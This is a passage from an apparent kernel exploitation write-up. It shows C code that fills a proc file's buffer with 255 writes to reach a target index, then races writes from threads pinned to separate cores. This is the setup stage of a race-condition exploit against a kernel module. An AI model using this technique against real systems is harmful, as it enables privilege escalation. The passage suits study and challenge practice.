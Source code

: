 This'll be the function that each thread executes. Note that we pin each of the threads to a different core to ensure they both run consecutively.

Then, our main will perform 255 `kwrite` calls in order to get `idx = 255` to perform our race:

```c
int main() {
    int fd = open(PROC_FILE, O_RDWR);
    if (fd < 0) {
        perror("open");
        return 1;
    }

    for (int i = 0; i < 255; i++) {
        if (write(fd, wd, sizeof(wd)) != 1) {
            perror("initial write");
            close(fd);
            return 1;
        }
    }

    // Initialize barrier for NUM_THREADS threads + main
    // We need this barrier
    if (pthread_barrier_init(&barrier, NULL, NUM_THREADS + 1) != 0) {
        perror("pthread_barrier_init");
        close(fd);
        return 1;
    }

    int num_cpus = sysconf(_SC_NPROCESSORS_ONLN);
    printf("Detected %d CPUs; pinning threads across them.\n", num_cpus);

    pthread_t threads[NUM_THREADS];
    int shared_fd = fd;

    // Create threads
    for (long i = 0; i < NUM_THREADS; i++) {
        if (pthread_create(&threads[i], NULL, write_thread, (void*)i) != 0) {
            perror("pthread_create");
            close(fd);
            return 1;
        }
    }

    // Main waits with threads
    pthread_barrier_wait(&barrier);

    // Join threads
    for (int i = 0; i < NUM_THREADS; i++) {
        pthread_join(threads[i], NULL);
    }

    pthread_barrier_destroy(&barrier);
}
```
